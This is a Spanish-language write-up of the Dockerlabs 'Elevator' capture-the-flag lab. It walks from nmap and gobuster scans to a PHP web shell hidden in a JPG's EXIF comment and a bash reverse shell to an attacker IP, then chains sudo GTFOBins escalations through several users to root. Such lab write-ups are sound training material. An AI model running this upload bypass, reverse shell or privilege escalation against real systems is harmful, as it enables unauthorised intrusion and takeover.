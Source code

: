 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 1/12/2024
  🐳Dockerlabs
---
```


# Elevator

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (972).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (973).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (974).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sobre un misterio en un ascensor.

<figure><img src="../.gitbook/assets/image (975).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (976).png" alt=""><figcaption></figcaption></figure>

Entramos en ese directorio pero no encontramos nada. Por lo que hacemos otra búsqueda de directorios.

```bash
gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,html,php
```

<figure><img src="../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

Vemos un directorio `/uploads` y un `archivo.html` por lo que supongamos que podemos subir una Reverse Shell.

<figure><img src="../.gitbook/assets/image (977).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Como podemos ver solo nos deja subir archivos en formato **.jpg** por lo que creamos una imagen y le insertamos código malicioso.

```bash
convert -size 200x200 xc:red ~/Desktop/malicious_image.jpg
exiftool -Comment='<?php system($_GET["cmd"]); ?>' ~/Desktop/malicious_image.jpg
```

Subimos la imagen y nos vamos al directorio `/uploads`.

<figure><img src="../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

Mientras en el buscador.

```bash
http://172.17.0.2/themes/uploads/6748e39cbd8ea.jpg.php?cmd=bash%20-c%20%22bash%20-i%20>%26%20/dev/tcp/192.168.255.136/443%200>%261%22
```

<figure><img src="../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **env** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/env/)cómo explotarlo.

```bash
sudo -u daphne /usr/bin/env /bin/sh
```

<figure><img src="../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>

Ya somos **daphne**.

<figure><img src="../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **ash** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/ash/)cómo explotarlo.

```bash
sudo -u vilma /usr/bin/ash
```

<figure><img src="../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>

Ya somos **vilma**.

<figure><img src="../.gitbook/assets/image (985).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **ruby** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/ruby/)cómo explotarlo.

```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
```

<figure><img src="../.gitbook/assets/image (986).png" alt=""><figcaption></figcaption></figure>

Ya somos **shaggy**.

<figure><img src="../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **lua** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/lua/)cómo explotarlo.

```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
```

<figure><img src="../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>

Ya somos **fred**.

<figure><img src="../.gitbook/assets/image (990).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **gcc** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/gcc/)cómo explotarlo.

```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s .
```

<figure><img src="../.gitbook/assets/image (991).png" alt=""><figcaption></figcaption></figure>

Ya somos **scooby**.

<figure><img src="../.gitbook/assets/image (992).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **sudo** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/sudo/)cómo explotarlo.

```bash
sudo -u root /usr/bin/sudo /bin/sh
```

<figure><img src="../.gitbook/assets/image (993).png" alt=""><figcaption></figcaption></figure>
